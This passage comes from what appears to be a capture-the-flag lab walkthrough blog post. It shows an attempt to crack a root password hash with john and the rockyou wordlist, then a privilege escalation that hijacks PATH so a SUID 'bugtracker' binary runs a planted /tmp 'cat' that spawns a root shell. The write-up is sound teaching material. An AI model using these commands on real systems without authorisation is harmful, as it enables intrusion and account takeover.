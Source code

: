 ![3058473057245.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1624365171297/KkxVY24ck.png align="left")

And try to crack `root` password it with `john`:

```plaintext
$ unshadow passwd.txt shadow.txt > unshadowed.txt
$ john --wordlist=/usr/wl/rockyou.txt unshadowed.txt

Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:53:11 DONE (2021-05-30 15:45) 0g/s 4493p/s 4493c/s 4493C/s !!!playboy!!!7..*7¡Vamos!
Session completed
```

But we can't crack it. At this point, we can simply cat out the root flag

![5787352694397.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1624365183455/t7okXooRh.png align="left")

But let's assume we don't know where the flag lays.

[Back to top](#contents) ⤴

# Escalating Privileges

> 🔔 `CyberEthical.Me` is maintained purely from your donations - consider one-time sponsoring on the [Sponsor](/sponsor) button or 🎁 [become a Patron](https://www.patreon.com/cyberethicalme) which also gives you some bonus perks.

In the debugging sessions, we see that `cat` is not referenced via an absolute `/bin/cat` path. We can exploit that. The plan is to modify `PATH` variable to include directory, so it will be searched **before** `/bin/`. In this directory, we are going to create `cat` file that will call `/bin/bash`. As we've observed before, `cat` (whatever it may be) is run with temporary elevated privileges - that way we can get the root shell.

```plaintext
export PATH=/tmp:$PATH
cd /tmp/
echo '/bin/sh' > cat
chmod +x cat
```

![5171782624492.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1624365197956/aO8bq7lYB.png align="left")

That way, we have a `cat` executable file that will be called inside `bugtracker` instead `/bin/cat`.

![241768606964.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1624365212772/522mfcLCe.png align="left")

![5116127633069.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1624365221444/Kv95Zqvyi.png align="left")

Remember that because we have modified `cat` in a `PATH` we should, either unset the `/tmp:` or call `cat` via its absolute path.
